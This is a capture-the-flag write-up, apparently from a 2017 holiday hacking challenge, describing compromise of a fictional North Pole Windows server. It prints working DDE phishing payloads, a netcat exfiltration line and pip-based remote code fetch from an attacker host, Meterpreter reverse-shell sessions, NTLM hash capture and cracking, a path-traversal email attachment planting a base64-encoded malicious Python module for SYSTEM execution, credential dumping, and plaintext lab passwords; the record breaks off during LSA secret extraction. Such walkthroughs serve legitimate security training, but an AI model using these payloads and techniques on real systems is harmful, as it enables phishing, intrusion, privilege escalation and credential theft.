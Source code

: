 ** Question
   :PROPERTIES:
   :CUSTOM_ID: question
   :END:

Like any other complex SCADA systems, the North Pole uses Elf-Machine
Interfaces (EMI) to monitor and control critical infrastructure
assets. These systems serve many uses, including email access and web
browsing. Gain access to the EMI server through the use of a phishing
attack with your access to the EWA server. Retrieve The Great Book
page from C:\GreatBookPage7.pdf. What does The Great Book page
describe?

** Background Information
   :PROPERTIES:
   :CUSTOM_ID: background-information
   :END:

Hints:

  1. I'm still a little angry with Alabaster for reprimanding me for a security violation. He still checks his email from the EMI system!
  2. He tells us not to install unnecessary software on systems, but he's running IIS with ASPX services on the EMI server, and Microsoft Office!
  3. Personally, I don't use Microsoft Word. I'll take vim and LaTeX any day. Word does have its advantages though, including some of the Dynamic Data Exchange features for transferring data between applications and obtaining data from external data sources, including executables.

The question gives us a place to start. As we were reviewing the e-mails for Question 4, a few intriguing ones stood out:

#+BEGIN_QUOTE
*From*: minty.candycane@northpolechristmastown.com

*To*: alabaster.snowball@northpolechristmastown.com

*Subject*: Should we be worried?



Hey Alabaster,

You know I'm a novice security enthusiast, well I saw an article a while 
ago about regarding DDE exploits that dont need macros for MS word to 
get command execution.

https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/

Should we be worried about this?

I tried it on my local machine and was able to transfer a file. Here's a 
poc:

[[./images/dde_exmaple_minty_candycane_small.png]]

I know your the resident computer engineer here so I wanted to defer to 
the expert.

:)

-Minty CandyCane.
#+END_QUOTE

This certainly seems to line up with the hints that we were given. Alabaster's not worried, however:

#+BEGIN_QUOTE
*Subject*: Re: Should we be worried?


Quit worrying Minty,

You have nothing to worry about with me around! I have developed most of 
the applications in our network including our network defenses. We are 
are completely secure and impenetrable.

Sincerely,

Alabaster Snowball.
#+END_QUOTE

The other e-mails that seemed intriguging were these two, also from Alabaster:

#+BEGIN_QUOTE
*Subject*: gingerbread cookie recipe


Hey Mrs Claus,

Do you have that awesome gingerbread cookie recipe you made for me last year? You sent it in a MS word .docx file. I would totally open that 
docx on my computer if you had that. I would click on anything with the words gingerbread cookie recipe in it. I'm totally addicted and want to 
make some more.

Thanks,

Alabaster Snowball
#+END_QUOTE

#+BEGIN_QUOTE
*Subject*: Re: COOKIES!


Awesome, yea if anyone finds that .docx file containing the recipe for "gingerbread cookie recipe", please send it to me in a docx file. Im 
currently working on my computer and would totally download that to my machine, open it, and click to all the prompts.


Thanks!

Alabaster Snowball.
#+END_QUOTE

#+CAPTION: Artist's Rendering of Alabaster Snowball
[[./images/cookies.jpg]]

** Goal
   :PROPERTIES:
   :CUSTOM_ID: goal
   :END:

We're trying to craft a malicious .docx file which we'll e-mail to
alabaster.snowball@northpolechristmastown.com via the EWA system. When
Alabaster opens the e-mail on the EMI system, the command that we
embed in the file should get us access to =C:\GreatBookPage7.pdf=.

** Approach
   :PROPERTIES:
   :CUSTOM_ID: approach
   :END:

At this point, we have a pretty good idea of what we need to do. The
sensepost blog post gives us some good instructions at how to
construct a malicious docx, and we know how to get Alabaster to click
on it.

However, there's a slightly easier way. On the SMB FileStor, we found
a docx that Shinny created for Wunorse. If we show the fields (Alt+F9
on Windows, Option+F9 on Mac), we see that this document has a DDE
field we can just modify.

[[./images/wunorse_docx.png]]

Shinny told us that the EMI system also runs IIS, so let's just try copying the PDF into the default IIS webroot.

We'll open up =MEMO - Calculator Access for Wunorse.docx=, and edit the command to:

#+BEGIN_SRC 
DDEAUTO c:\\windows\\system32\\cmd.exe "/k copy C:\\GreatBookPage7.pdf 
C:\\inetpub\\wwwroot\4beadb1e-5ddb-4636-98a4-c2dac0f79ab3.pdf"
#+END_SRC

Then, we use the EWA web interface to send an e-mail to Alabaster,
with the document attached. We make sure to include the words
"gingerbread," "cookie," and "recipe" in the message body, since he
told us that that's what he'll click on.

After we send the message, we wait a few minutes, and soon the file shows up!

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:

We modified =MEMO - Calculator Access for Wunorse.docx= to copy the PDF into the IIS webroot, e-mailed that to Alabaster, then downloaded the copy of the file once it showed up.

** Going Deeper -- Command Execution

Getting the PDF is cool, but what else can we find on this system? Some of the other e-mails harp on Alabaster having installed =netcat=, and having it in his path. Let's run a command, and pipe the result to =netcat=, which will send it back to our system:

#+BEGIN_SRC 
DDEAUTO c:\\windows\\system32\\cmd.exe "/k dir C:\\ | nc 1.2.3.4 8888"
#+END_SRC

On our system, we start a =netcat= listener:

#+BEGIN_SRC 
$ nc -l -p 8888
 Volume in drive C has no label.
 Volume Serial Number is 9454-C240

 Directory of C:\

12/04/2017  08:42 PM         1,053,508 GreatBookPage7.pdf
11/14/2017  07:57 PM    <DIR>          inetpub
09/12/2016  11:35 AM    <DIR>          Logs
12/05/2017  05:00 PM    <DIR>          Microsoft
07/16/2016  01:23 PM    <DIR>          PerfLogs
11/15/2017  02:35 PM    <DIR>          Program Files
11/14/2017  08:24 PM    <DIR>          Program Files (x86)
11/15/2017  03:03 PM    <DIR>          python
11/14/2017  08:39 PM    <DIR>          Users
11/30/2017  06:23 PM    <DIR>          Windows
               1 File(s)      1,053,508 bytes
               9 Dir(s)  33,072,455,680 bytes free

C:\Users\alabaster_snowball\Documents>
#+END_SRC

Success! At this point, we started working on a way to automate
this. However, more complex commands would often not work, due to
issues with escaping. So instead of using =cmd.exe= as our delivery
mechanism, we used Python.

Python is installed on the system, and a simple command that we can run is to install a Python module via pip:

#+BEGIN_SRC sh
python.exe -m pip install http://1.2.3.4/foo.tar.gz
#+END_SRC

When pip installs a module, it will run the =setup.py= file. By adding
arbitrary Python code to this file, we can execute commands without
needing to worry about encoding them in a Word document, etc.

The end result was writing a complete end-to-end script, which will
build a malicious Word document, e-mail it, create a malicious Python
module, and use it to download the PDF.

** Level 2 -- Meterpreter Shell

#+begin_note
Originally, the system had Windows Defender enabled, which would block some default Meterpreter payloads
#+end_note

Instead of just downloading the PDF file, we can modify our script to send a Python meterpreter payload.

We start Meterpreter listening on our local system:

#+BEGIN_SRC 
$ msfconsole -r python-meterpreter-staged-reverse-tcp-4444-py.rc

 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v4.16.14-dev-140955f                 ]
+ -- --=[ 1698 exploits - 969 auxiliary - 299 post        ]
+ -- --=[ 500 payloads - 40 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

[*] Processing msf_payloads/python-meterpreter-staged-reverse-tcp-4444-py.rc for ERB directives.
resource (msf_payloads/python-meterpreter-staged-reverse-tcp-4444-py.rc)> use exploit/multi/handler
resource (msf_payloads/python-meterpreter-staged-reverse-tcp-4444-py.rc)> set PAYLOAD python/meterpreter/reverse_tcp
PAYLOAD => python/meterpreter/reverse_tcp
resource (msf_payloads/python-meterpreter-staged-reverse-tcp-4444-py.rc)> set LHOST 1.2.3.4
LHOST => 1.2.3.4
resource (msf_payloads/python-meterpreter-staged-reverse-tcp-4444-py.rc)> set LPORT 4444
LPORT => 4444
resource (msf_payloads/python-meterpreter-staged-reverse-tcp-4444-py.rc)> set ExitOnSession false
ExitOnSession => false
resource (msf_payloads/python-meterpreter-staged-reverse-tcp-4444-py.rc)> run -j
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 1.2.3.4:4444
#+END_SRC

Now we use our all-in-one script to send Alabaster our malicious file:

#+BEGIN_SRC 
$ ./full_phish.py                                                                                                                                                                                                                                         master
Using 1.2.3.4 as external IP
Found word/document.xml, rewriting 50793 bytes
Before:
DEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"
After:
DEAUTO c:\\windows\\system32\\cmd.exe "/k python.exe -m pip install http://1.2.3.4:8888/foo-1.0.tar.gz"
File uploaded and available at http://mail.northpolechristmastown.com/attachments/emusQH5oH5K2hzajPFvJbTGMuS__gingerbreadcookierecipe.docx
Sending message...

{'result': 'Message <f67b9d00-b263-2fdf-f3d1-2d679bbca9f4@northpolechristmastown.com> sent: 250 2.0.0 Ok: queued as 28EF1C356D', 'bool': True}
Using 1.2.3.4 as external IP
Listening on port 44665
Starting server on port 8888, use <Ctrl-C> to stop
Serving request 1 of 1...
/foo-1.0.tar.gz foo-1
35.185.57.190 - - [10/Jan/2018 03:14:47] "GET /foo-1.0.tar.gz HTTP/1.1" 200 -
#+END_SRC

And sure enough, we see a new session in Meterpreter:

#+BEGIN_SRC 
msf exploit(handler) >
[*] Sending stage (42231 bytes) to 35.185.57.190
[*] Meterpreter session 1 opened (1.2.3.4:4444 -> 35.185.57.190:52319) at 2018-01-10 03:15:51 +0000

msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : hhc17-smb-server
OS              : Windows 2016 (Build 14393)
Architecture    : x64
System Language : en_US
Meterpreter     : python/windows
#+END_SRC

** Getting Alabaster's Password

Being able to use Meterpreter is nice, but it sure would be cool if we
could Remote Desktop, or see if Alabaster's password is in use
elsewhere. We'll use Metasploit's SMB Authentication Capture module.

#+begin_tip
Try to avoid running Metasploit as root. In this case, we'll need to bind to a privileged port (445), but we can use =iptables= to redirect our traffic instead:
=sudo iptables -A PREROUTING -t nat -p tcp --dport 445 -j REDIRECT --to-port 3445=
#+end_tip

#+BEGIN_SRC 
msf exploit(handler) > use auxiliary/server/capture/smb
msf auxiliary(smb) > info

       Name: Authentication Capture: SMB
     Module: auxiliary/server/capture/smb
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  hdm <x@hdm.io>

Available actions:
  Name     Description
  ----     -----------
  Sniffer

Basic options:
  Name        Current Setting   Required  Description
  ----        ---------------   --------  -----------
  CAINPWFILE                    no        The local filename to store the hashes in Cain&Abel format
  CHALLENGE   1122334455667788  yes       The 8 byte server challenge
  JOHNPWFILE                    no        The prefix to the local filename to store the hashes in John format
  SRVHOST     0.0.0.0           yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
  SRVPORT     445              yes       The local port to listen on.

Description:
  This module provides a SMB service that can be used to capture the
  challenge-response password hashes of SMB client systems. Responses
  sent by this service have by default the configurable challenge
  string (\x11\x22\x33\x44\x55\x66\x77\x88), allowing for easy
  cracking using Cain & Abel, L0phtcrack or John the ripper (with
  jumbo patch). To exploit this, the target system must try to
  authenticate to this module. One way to force an SMB authentication
  attempt is by embedding a UNC path (\\SERVER\SHARE) into a web page
  or email message. When the victim views the web page or email, their
  system will automatically connect to the server specified in the UNC
  share (the IP address of the system running this module) and attempt
  to authenticate. Another option is using
  auxiliary/spoof/{nbns,llmnr} to respond to queries for names the
  victim is already looking for.

msf auxiliary(smb) > set SRVPORT 3445
SRVPORT => 3445
msf auxiliary(smb) > set JOHNPWFILE alabaster_snowball.john
JOHNPWFILE => alabaster_snowball.john
msf auxiliary(smb) > run
[*] Auxiliary module running as background job 3.
#+END_SRC

Now, we'll send the following command via e-mail:

#+BEGIN_SRC 
DDEAUTO c:\\windows\\system32\\cmd.exe "/k dir \\\\1.2.3.4\\a"
#+END_SRC

And sure enough, we get the following hashes:

#+BEGIN_SRC 
[*] SMB Captured - 2018-12-20 17:08:24 +0000
NTLMv2 Response Captured from 35.185.57.190:49759 - 35.185.57.190
USER:alabaster_snowball DOMAIN:HHC17-SMB-SERVE OS: LM:
LMHASH:Disabled
LM_CLIENT_CHALLENGE:Disabled
NTHASH:314d4bd798cac0c5fa2bb107ba248cc6
NT_CLIENT_CHALLENGE:0101000000000000d1b912a0358ad30143592f0cabfa891000000000020000000000000000000000
[*] SMB Captured - 2018-12-20 17:08:24 +0000
NTLMv2 Response Captured from 35.185.57.190:49759 - 35.185.57.190
USER:alabaster_snowball DOMAIN:HHC17-SMB-SERVE OS: LM:
LMHASH:Disabled
LM_CLIENT_CHALLENGE:Disabled
NTHASH:aaa7328ccd721a5e96bfb188eb4ecbdd
NT_CLIENT_CHALLENGE:010100000000000001431ca0358ad301c89b21fb5e4c160d00000000020000000000000000000000
[*] SMB Captured - 2018-12-20 17:08:24 +0000
NTLMv2 Response Captured from 35.185.57.190:49759 - 35.185.57.190
USER:alabaster_snowball DOMAIN:HHC17-SMB-SERVE OS: LM:
LMHASH:Disabled
LM_CLIENT_CHALLENGE:Disabled
NTHASH:71570491da3f413ce830788429820789
NT_CLIENT_CHALLENGE:010100000000000024042ba0358ad301a28a0bc07ea8214300000000020000000000000000000000
#+END_SRC

We now have the following file:

#+BEGIN_SRC 
alabaster_snowball::HHC17-SMB-SERVE:1122334455667788:3d0a58908a34215103b43a000b5807ab:0101000000000000f0a52fe4358ad3018486290b6477913300000000020000000000000000000000
alabaster_snowball::HHC17-SMB-SERVE:1122334455667788:5c63d79712f174de38ee30de2136b53e:0101000000000000e4e554e4358ad301fee549fa52c9b5ef00000000020000000000000000000000
alabaster_snowball::HHC17-SMB-SERVE:1122334455667788:de4559d983096a0a895484a61834283f:0101000000000000fb6a68e4358ad301645b79e4a5ed58c300000000020000000000000000000000
#+END_SRC

We'll use =hashcat= to crack this:

#+BEGIN_SRC 
hashcat64.bin -m 5600 -a 0 alabaster_snowball.john.netntlmv2 wordlist.txt -O -w 4
...
alabaster_snowball::HHC17-SMB-SERVE:1122334455667788:3d0a58908a3...:Carried_mass_it_reader1
alabaster_snowball::HHC17-SMB-SERVE:1122334455667788:5c63d79712f...:Carried_mass_it_reader1
alabaster_snowball::HHC17-SMB-SERVE:1122334455667788:de4559d9830...:Carried_mass_it_reader1
Session..........: hashcat
Status...........: Cracked
Hash.Type........: NetNTLMv2
...
#+END_SRC

Armed with a password, we can remote desktop:

#+CAPTION: Logging in to EMI as Alabaster via RDP
#+attr_html: :width 500px
[[./images/alabaster_rdp.png]]

Woot! We're hand-waving some of this for now, as there will be a
longer discussion about how we cracked passwords. TODO link to that
discussion.

** Next up -- Privilege Escalation!

Unfortunately, our commands only run as Alabaster, who is just a
regular user on the EMI system. We can do better than that.

Once we got command execution on this system, we started looking to
see what was running. It was obvious that Office was not installed,
and we started to question whether Alabaster even used this system, or
if it was all a big charade.

We found that the system was running a service, called
=WindowsGrabber= which would download new e-mails, try to parse out
their DDE payloads, and execute them. It did this via =C:\Program Files\WindowsGrabber\alabaster_snowball.py=. That file also had credentials for the EWA system:

#+BEGIN_SRC python
srverAddress = '10.142.0.5'
#srverAddress = '35.185.115.185'
user = 'alabaster.snowball@northpolechristmastown.com'
passw = 'power instrument gasoline film'
#+END_SRC

(As an aside, this code snippet also confirmed our theory about the
systems moving from the public IPs we found during the Recon stage, to
private ones).

This service was running as the alabaster_snowball user that we could
already run commands as, so it wasn't a target for privilege
elevation.

...and then, on December 23rd, all of that changed. The setup was
changed, so now two services were running: =WindowsGrabber= was now
running as =LocalSystem=, a very privileged account on Windows, and
=agrabber= was running as Alabaster. The Python script was no longer
readable by Alabaster, but it was modified so that instead of directly
running the commands, it would write them to a file, and then the
lesser-privileged =agrabber= service would run them from that file.

Unfortunately, there was a vulnerability in
=alabaster_snowball.py=. It turns out that there are two ways to send
the file to Alabaster: we can either attach it via the EWA webmail
interface, which uploads a copy to =mail.northpolechristmastown.com=
and inserts a link in the e-mail, *OR* we can simply attach it to the
e-mail. In the case of the latter, the script does the following:

#+BEGIN_SRC python
def save_attachment(self, msg):
    """
    Given a message, save its attachments to the specified
    download folder (default is /tmp)

    return: file path to attachment
    """
    download_folder = tempfile.mkdtemp()
    att_path = False
    for part in msg.walk():
        if part.get_content_maintype() == 'multipart':
            continue
        if part.get('Content-Disposition') is None:
            continue

        filename = part.get_filename()
        att_path = os.path.join(download_folder, filename)

        if not os.path.isfile(att_path):
            fp = open(att_path, 'wb')
            fp.write(part.get_payload(decode=True))
            fp.close()
    return att_path
#+END_SRC

The issue here is the line:

#+BEGIN_SRC python
att_path = os.path.join(download_folder, filename)
#+END_SRC

The filename is controlled by us, as it comes from the e-mail message
itself. By prefixing our filename with =../../../..= we can write
anywhere on the system, as the LocalSystem account.

With unrestricted write access, how can we turn that into code
execution? We could a number of techniques, such as DLL hijacking, but
many are made more difficult by the fact that we can't *read* files
with our privileged access, only write to them.

Once again, we turned to Python. We targetted the
=alabaster_snowball.py= script itself, with Python module
injection. An import command such as:

#+BEGIN_SRC python
import glob
#+END_SRC

will cause Python to search for =glob.py= in the current directory,
and then in some system-wide directories. If we can write a malicious
=C:\Program Files\WindowsGrabber\glob.py=, the next time the service restarts, our code will run as LocalSystem.

#+begin_danger
These files can break the =alabaster_snowball.py= script. Because they're being written as privileged, the regular Alabaster account cannot modify or delete them. Take great care in what you send!
#+end_danger

Our file ends up looking like this:

#+BEGIN_SRC python
import sys, imp, os
def get_mod(modname):
    fd, path, desc = imp.find_module(modname, sys.path[::-1])
    return imp.load_module("orig_" + modname, fd, path, desc)

locals().update(vars(get_mod(__name__)))

try:
    if not os.path.isfile("C:/Windows/Temp/have_run"):
        os.system('nssm install zGrabber C:\\Users\\ALABAS~1\\AppData\\Local\\Temp\\2\\4445.exe')
        open("C:/Windows/Temp/have_run", 'a').close()
    os.system('nssm start zGrabber')
except:
    print("Could not run")
#+END_SRC

The top half loads the actual glob module, and makes it available to
anything that imported our malicious glob module. The bottom half
creates a new service, which will run a file that we uploaded,
4445.exe. This service uses the Non-Sucking Service Manager (nssm)
that manages the other Grabber services, and will be installed as a
LocalSystem service as well. Finally, we start our service, and ignore
any exceptions in case we made a mistake.

Getting this file right was a little nerve-wracking, and required a
great deal of testing. The vulnerability we found will only allow you
to write new files, and because the files are written as the
LocalSystem account, there was no way to modify or delete them once
written if this did not work.

Now, we craft an e-mail, which has our base64-encoded glob.py as an
attachment, and we give the attachment a filename that will put it in
the right place:

#+BEGIN_SRC 
HELO l2s
MAIL FROM:<wunorse.openslae@northpolechristmastown.com>
RCPT TO:<alabaster.snowball@northpolechristmastown.com>
DATA
MIME-Version: 1.0
Subject: Test E-mail
From: wunorse.openslae@northpolechristmastown.com
To: alabaster.snowball@northpolechristmastown.com
Content-Type: multipart/mixed; boundary="089e082f74245acc5b05624d7433"

--089e082f74245acc5b05624d7433
Content-Type: multipart/alternative; boundary="089e082f74245acc5605624d7431"

--089e082f74245acc5605624d7431
Content-Type: text/plain; charset="UTF-8"

gingerbread cookie recipe


--089e082f74245acc5b05624d7433
Content-Type: text/x-python-script; charset="US-ASCII"; name="glob.py"
Content-Disposition: attachment; filename="../../../../../../../../../../../../Program Files/WindowsGrabber/glob.py"
Content-Transfer-Encoding: base64
X-Attachment-Id: f_jc6xkfum1

aW1wb3J0IHN5cywgaW1wLCBvcwpkZWYgZ2V0X21vZChtb2RuYW1lKToKICAgIGZkLCBwYXRoLCBk
ZXNjID0gaW1wLmZpbmRfbW9kdWxlKG1vZG5hbWUsIHN5cy5wYXRoWzo6LTFdKQogICAgcmV0dXJu
IGltcC5sb2FkX21vZHVsZSgib3JpZ18iICsgbW9kbmFtZSwgZmQsIHBhdGgsIGRlc2MpCgpsb2Nh
bHMoKS51cGRhdGUodmFycyhnZXRfbW9kKF9fbmFtZV9fKSkpCgp0cnk6CiAgICBpZiBub3Qgb3Mu
cGF0aC5pc2ZpbGUoIkM6L1dpbmRvd3MvVGVtcC9oYXZlX3J1biIpOgogICAgICAgIG9zLnN5c3Rl
bSgnbnNzbSBpbnN0YWxsIHpHcmFiYmVyIEM6XFxVc2Vyc1xcQUxBQkFTfjFcXEFwcERhdGFcXExv
Y2FsXFxUZW1wXFwyXFw0NDQ1LmV4ZScpCiAgICAgICAgb3BlbigiQzovV2luZG93cy9UZW1wL2hh
dmVfcnVuIiwgJ2EnKS5jbG9zZSgpCiAgICBvcy5zeXN0ZW0oJ25zc20gc3RhcnQgekdyYWJiZXIn
KQpleGNlcHQ6CiAgICBwcmludCgiQ291bGQgbm90IHJ1biIpCg==

--089e082f74245acc5b05624d7433--
.

#+END_SRC

Now we just send that over =netcat=, and wait:

#+BEGIN_SRC 
$ nc mail.northpolechristmastown.com 25
220 mail.northpolechristmastown.com ESMTP Postfix
HELO l2s
250 mail.northpolechristmastown.com
MAIL FROM:<wunorse.openslae@northpolechristmastown.com>
250 2.1.0 Ok
RCPT TO:<alabaster.snowball@northpolechristmastown.com>
550 5.7.1 <alabaster.snowball@northpolechristmastown.com>: Recipient address rejected: Message rejected due to: SPF fail - not authorized. 
Please see http://www.openspf.net/Why?s=mfrom;id=wunorse.openslae@northpolechristmastown.com;ip=10.142.0.3;r=alabaster.snowball@northpolechristmastown.com
#+END_SRC

Foiled! If we dig a little deeper however, and we use our =nmap= scan results, we'll find that there's another SMTP service listening on port 2525 which *will* allow us to send our e-mail:

#+BEGIN_SRC 
220 mail.northpolechristmastown.com ESMTP Postfix
HELO l2s
250 mail.northpolechristmastown.com
MAIL FROM:<wunorse.openslae@northpolechristmastown.com>
250 2.1.0 Ok
RCPT TO:<alabaster.snowball@northpolechristmastown.com>
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
MIME-Version: 1.0
Subject: Test E-mail
...
--089e082f74245acc5b05624d7433--
.
250 2.0.0 Ok: queued as 1755CC35D2
#+END_SRC

If we do a directory listing, we see that our plan worked:

#+BEGIN_SRC 
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  7670  fil   2017-12-23 04:28:42 +0000  alabaster_snowball.py
100666/rw-rw-rw-  257   fil   2017-12-23 05:17:52 +0000  execute.ps1
100666/rw-rw-rw-  0     fil   2018-01-09 01:25:40 +0000  file.txt
100666/rw-rw-rw-  228   fil   2018-01-09 01:25:36 +0000  glob.py
#+END_SRC

Now we just need to launch Metasploit and wait for the service to restart...

#+BEGIN_SRC 
$ msfconsole -r windows-meterpreter-stageless-reverse-tcp-4445-exe.rc


     .~+P``````-o+:.                                      -o+:.
.+oooyysyyssyyssyddh++os-`````                        ```````````````          `
+++++++++++++++++++++++sydhyoyso/:.````...`...-///::+ohhyosyyosyy/+om++:ooo///o
++++///////~~~~///////++++++++++++++++ooyysoyysosso+++++++++++++++++++///oossosy
--.`                 .-.-...-////+++++++++++++++////////~~//////++++++++++++///
                                `...............`              `...-/////...`


                                  .::::::::::-.                     .::::::-
                                .hmMMMMMMMMMMNddds\...//M\\.../hddddmMMMMMMNo
                                 :Nm-/NMMMMMMMMMMMMM$$NMMMMm&&MMMMMMMMMMMMMMy
                                 .sm/`-yMMMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMMh`
                                  -Nd`  :MMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMh`
                                   -Nh` .yMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMm/
    `oo/``-hd:  ``                 .sNd  :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMm/
      .yNmMMh//+syysso-``````       -mh` :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMd
    .shMMMMN//dmNMMMMMMMMMMMMs`     `:```-o++++oooo+:/ooooo+:+o+++oooo++/
    `///omh//dMMMMMMMMMMMMMMMN/:::::/+ooso--/ydh//+s+/ossssso:--syN///os:
          /MMMMMMMMMMMMMMMMMMd.     `/++-.-yy/...osydh/-+oo:-`o//...oyodh+
          -hMMmssddd+:dMMmNMMh.     `.-=mmk.//^^^\\.^^`:++:^^o://^^^\\`::
          .sMMmo.    -dMd--:mN/`           ||--X--||          ||--X--||
........../yddy/:...+hmo-...hdd:............\\=v=//............\\=v=//.........
================================================================================
=====================+--------------------------------+=========================
=====================| Session one died of dysentery. |=========================
=====================+--------------------------------+=========================
================================================================================

                     Press ENTER to size up the situation

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%% Date: April 25, 1848 %%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%% Weather: It's always cool in the lab %%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%% Health: Overweight %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%% Caffeine: 12975 mg %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%% Hacked: All the things %%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

                        Press SPACE BAR to continue



       =[ metasploit v4.16.14-dev-140955f                 ]
+ -- --=[ 1698 exploits - 969 auxiliary - 299 post        ]
+ -- --=[ 500 payloads - 40 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

[*] Processing msf_payloads/windows-meterpreter-stageless-reverse-tcp-4445-exe.rc for ERB directives.
resource (msf_payloads/windows-meterpreter-stageless-reverse-tcp-4445-exe.rc)> use exploit/multi/handler
resource (msf_payloads/windows-meterpreter-stageless-reverse-tcp-4445-exe.rc)> set PAYLOAD windows/meterpreter_reverse_tcp
PAYLOAD => windows/meterpreter_reverse_tcp
resource (msf_payloads/windows-meterpreter-stageless-reverse-tcp-4445-exe.rc)> set LHOST 1.2.3.4
LHOST => 1.2.3.4
resource (msf_payloads/windows-meterpreter-stageless-reverse-tcp-4445-exe.rc)> set LPORT 4445
LPORT => 4445
resource (msf_payloads/windows-meterpreter-stageless-reverse-tcp-4445-exe.rc)> set ExitOnSession false
ExitOnSession => false
resource (msf_payloads/windows-meterpreter-stageless-reverse-tcp-4445-exe.rc)> run -j
[*] Exploit running as background job 0.
Meterpreter session 1 opened (1.2.3.4:4445 -> 35.185.57.190:49672) at 2018-01-09 05:08:43 +0000
msf exploit(handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                           Connection
  --  ----  ----                     -----------                                           ----------
  1         meterpreter x64/windows  HHC17-SMB-SERVE\LocalSystem @ HHC17-SMB-SERVE  1.2.3.4:4445 -> 35.185.57.190:49756 (10.142.0.8)
#+END_SRC

And now, we've managed to elevate our credentials. Let's dump the hashes on the system:

#+BEGIN_SRC 
msf exploit(multi) > use post/windows/gather/credentials/credential_collector
msf post(credential_collector) > run

[*] Running module against HHC17-SMB-SERVE
[+] Collecting hashes...
    Extracted: Administrator:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
    Extracted: alabaster_snowball:aad3b435b51404eeaad3b435b51404ee:10e2fa00c44d10ca05d399f47ed13351
    Extracted: DefaultAccount:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
    Extracted: Guest:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
    Extracted: sysadmin:aad3b435b51404eeaad3b435b51404ee:27309e9a73764938860b4a1ed7c0392b
[+] Collecting tokens...
    HHC17-SMB-SERVE\alabaster_snowball
    IIS APPPOOL\DefaultAppPool
    NT AUTHORITY\IUSR
    NT AUTHORITY\LOCAL SERVICE
    NT AUTHORITY\NETWORK SERVICE
    NT AUTHORITY\SYSTEM
    Window Manager\DWM-1
    NT AUTHORITY\ANONYMOUS LOGON
[*] Post module execution completed
#+END_SRC

We could try to crack some hashes, but there's an easier way. Let's check the LSA secrets:

#+BEGIN_SRC 
msf post(credential_collector) > use post/windows/gather/lsa_secrets
msf post(lsa_secrets) > info

       Name: Windows Enumerate LSA Secrets
     Module: post/windows/gather/lsa_secrets
   Platform: Windows
       Arch:
